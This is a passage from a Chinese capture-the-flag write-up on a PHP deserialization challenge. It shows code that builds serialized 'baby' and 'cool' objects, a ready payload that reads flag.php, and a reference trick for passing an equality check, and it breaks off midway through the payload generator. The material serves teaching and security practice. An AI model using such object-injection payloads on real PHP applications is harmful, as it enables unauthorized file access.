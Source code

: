```php
$b=new baby();
$b_ser=serialize($b);
echo $b_ser;
echo "\n";

//test:
$Input_data = unserialize($b_ser); //baby object
echo $Input_data;
```

得到payload：

```php
O:4:"baby":3:{s:9:"%00*%00skyobj";O:4:"cool":3:{s:8:"filename";s:8:"flag.php";s:4:"nice";N;s:6:"amzing";N;}s:3:"aaa";N;s:3:"bbb";N;}
```

原先我以为cool里面还要再生成一个baby对象绕过`if($this->nice->aaa === $this->nice->bbb)`，但直接将上面的payload作为get的data发过去就能拿到flag了，原因是`$this->nice = unserialize($this->amzing);`执行后`$nice=bool(false)`，此时`$this->nice->aaa=$this->nice->bbb=NULL`，因为`$sth`变量没有定义（实际上在`flag.php`中`$sth`是定义的，但是在类中不能直接用——需要global声明），因此即使执行`$this->nice->aaa = $sth;`，`$this->nice->aaa`仍为空，因此if判断是通过的。

![TIM截图20190126112049](writeup/TIM截图20190126112049.png)

## 正确解法

如果在类中确实使用了global声明，那么需要用指针使bbb随aaa动态改变（这应该是出题人本来的意思，感谢飘零大佬的wp)

```php
$b=new baby();
$b->bbb=&$b->aaa;
```

现在梳理一下我们的对象关系：

```
$baby_outside->skyobj=$cool_obj
	$cool_obj->amzing=serialize($baby_inside)
		$baby_inside->bbb=&$baby_inside->aaa
```

这样因为最内部的baby->skyobj不能为cool对象，不然就循环调用了，因此要处理一下构造函数，payload产生代码如下：

```php
<?php
@error_reporting(1);
include 'flag.php';
class baby
{
    protected $skyobj;
    public $aaa;
    public $bbb;
    function __construct($s)
    {
        if($s){
            //若为内部则包含sec对象，且使用指针
            $this->bbb=&$this->aaa; 
            $this->skyobj=new sec();
        } else{
            //若为外部则构造一个cool对象，
            $c=new cool();
            $c->filename="flag.php";
```